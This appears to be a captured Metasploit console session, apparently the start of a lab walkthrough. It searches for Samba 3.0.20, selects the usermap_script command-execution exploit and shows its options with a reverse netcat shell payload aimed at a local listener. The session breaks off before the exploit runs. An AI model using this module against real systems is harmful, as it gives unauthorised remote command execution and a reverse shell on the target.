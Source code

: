 ```
                      .       /   
     .                       /      .            *           .                            
                            /                                                             
                           *                                                              
                  +                       *                                               
                                                                                          
                                       ^                                                  
####      __     __     __          #######         __     __     __        ####          
####    /    \ /    \ /    \      ###########     /    \ /    \ /    \      ####          
################################################################################
################################################################################
# WAVE 5 ######## SCORE 31337 ################################## HIGH FFFFFFFF #
################################################################################
                                                           https://metasploit.com
                                                                                          
                                                                                          
       =[ metasploit v6.0.41-dev                          ]               
+ -- --=[ 2122 exploits - 1138 auxiliary - 360 post       ]                               
+ -- --=[ 594 payloads - 45 encoders - 10 nops            ]          
+ -- --=[ 8 evasion                                       ]                               
                                                                                          
Metasploit tip: Save the current environment with the
save command, future console restarts will use this
environment again    

msf6 > search samba 3.0.20 
Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.126.147  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
```